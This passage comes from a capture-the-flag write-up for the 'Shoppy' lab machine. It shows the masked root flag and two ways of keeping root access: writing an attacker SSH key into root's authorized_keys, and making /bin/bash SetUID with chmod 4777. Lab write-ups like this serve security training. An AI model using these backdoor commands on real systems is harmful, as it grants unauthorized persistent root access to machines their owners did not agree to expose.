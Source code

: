 

    # cat /root/root.txt
    5c6e2d67************************



### Shell

#### SSH

The simplest way to get a shell as root is to drop my public SSH key
into an `authorized_keys` file for root:



    # mkdir /root/.ssh
    # echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys 
    # chmod 600 /root/.ssh/authorized_keys



Now I can connect with SSH:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@shoppy.htb
    Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    root@shoppy:~#



#### SUID bash

A perhaps quieter way is to make `bash` SetUID:



    # chmod 4777 /bin/bash



Because I'm working from the `chroot` file system, that `bash` is on the
host. Exiting the container, I can verify it worked because the first
`x` is now `s`:
